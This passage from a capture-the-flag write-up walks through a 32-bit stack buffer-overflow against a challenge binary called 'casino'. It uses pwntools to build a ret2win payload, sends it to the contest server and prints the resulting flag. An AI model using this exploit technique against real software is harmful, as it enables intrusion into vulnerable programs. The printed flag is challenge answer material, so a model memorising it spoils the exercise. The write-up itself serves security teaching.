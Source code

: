 4.  Find the *win* function address. Moreover, due to the 32-bit convention, the function must be proceeded by the address of the return value and then the parameters. In order to automate the process of finding the address of these functions, we have used [**pwntools**](https://docs.pwntools.com/en/latest/) from python in order to automatically fetch the adress of any symbol(function) and also to look for an instruction which performs a **ret** address(return). Moreover, this values have to be converted in the appropriate format. (0x34356789 -> \x34\x35\x67\x89).
	```python
	#!/usr/bin/env/python3
	from pwn import *

	elf = ELF("./casino", checksec=False)
	rop = ROP(elf)

	win_addr = p32(elf.symbols['win'])
	ret_addr = p32(rop.find_gadget(['ret'])[0])
	param_value = p32(0x1133370d)
	```
5. Generate the final payload containing based on the following *formula*:
	```python
	payload = 'A' * overflow_offset + function_address + function_return_address + function_parameter1
	```

   Therefore, the final code looks like the following

	```python
	#!/usr/bin/env/python3
	from pwn import *

	elf = ELF("./casino", checksec=False)
	rop = ROP(elf)

	win_addr = p32(elf.symbols['win'])
	ret_addr = p32(rop.find_gadget(['ret'])[0])
	param_value = p32(0x1133370d)


	payload = "A" * 61 + win_addr + ret_addr + param_value
	p = remote('isc2021.root.sx', 10013)
	p.sendline(payload)
	p.interactive()
	```
	
	Upon running the script, we get the flag.
	```bash
	┌─[kayn@parrot]─[~/Documents/ISC/task3]
	└──╼ $python2 bof.py 
	[*] Loaded 10 cached gadgets for './casino'
	[+] Opening connection to isc2021.root.sx on port 10013: Done
	[*] Switching to interactive mode
	Welcome to the Saint Tropez Virtual Casino!
	Please enter your bank account:
	https://www.youtube.com/watch?v=pOyK9qQpdyQ SpeishFlag{vt4IPyKIjccccO8baDjaRFJWqolpoCcn}
	
	Program exited with 0
	[*] Got EOF while reading in interactive
	$  
	```


### Flag
**SpeishFlag{vt4IPyKIjccccO8baDjaRFJWqolpoCcn}**
